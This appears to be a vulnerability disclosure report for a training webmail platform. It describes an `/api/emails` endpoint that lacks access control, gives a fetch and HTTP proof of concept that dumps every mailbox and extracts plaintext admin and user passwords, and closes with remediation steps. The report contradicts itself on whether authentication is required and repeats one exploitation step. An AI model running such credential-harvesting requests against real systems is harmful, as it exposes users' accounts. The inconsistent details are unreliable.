



# Description

Missing Access Control (CWE-306 / CWE-639) on the TrackBox webmail endpoint `GET /api/emails` (`API.py:101-139`). The endpoint returns **every** email stored on the server with **no authentication required** — there is no session check, no `WHERE destination = current_user` constraint, and no rate limiting. Any anonymous caller retrieves all mailboxes on the platform.

Because the V.R.C welcome system mails **plaintext login credentials** at signup, a single call returns the username and password of every user, including `admin` — escalating an ordinary account into full platform compromise in under two minutes.

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | Call `GET /api/emails` directly — no signup or login needed. | All emails of all users returned (endpoint has no auth check). |
| 2 | (Optional) Sign up at `/signup` and log in at `/connect`. | Not required — the endpoint is fully unauthenticated. |
| 3 | Extract the admin welcome email's password. | Credential harvest complete. |
| 4 | Extract the admin welcome email's password; log in to the main app. | Admin takeover. |

# PoC

**1. Dump every mailbox from the authenticated console:**

```javascript
fetch('/api/emails', {credentials:'include'}).then(r=>r.json()).then(console.log)
// {"count":28,"emails":[...all users...],"status":"success"}
```



**2. Filter by a target user to grab credentials:**

```http
GET /api/emails?user=admin HTTP/1.1
Host: webmail.<TARGET>
Cookie: Id=<any_valid_session>

{"count":1,"emails":[{"content":"...Password: X#9kLm$P2v@nQ8w!ZjRe...","destination":"admin@tbox.traced"}]}
```



**3. Log in to the main V.R.C platform as admin:**



Credentials recovered: `admin / X#9kLm$P2v@nQ8w!ZjRe` plus 14 seeded users sharing `Tr@c3d!7BxN#m9Kw2YpL`. Account-activation tokens for pending signups are also exposed.

# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | Every mailbox and every plaintext credential readable by any account. |
| Integrity | Full account takeover of all users, including `admin`. |
| Availability | Admin access enables destructive admin-panel actions. |

Overall severity: **Critical** — low-privilege to admin in one API call.

# Remediation

1. **Filter `/api/emails` server-side** to the authenticated user's own address.
2. **Stop emailing plaintext passwords** — use one-time setup links.
3. **Rotate all exposed credentials** immediately.
4. **Audit every webmail object endpoint** for the same missing ownership check.

# Author
CPE LYON
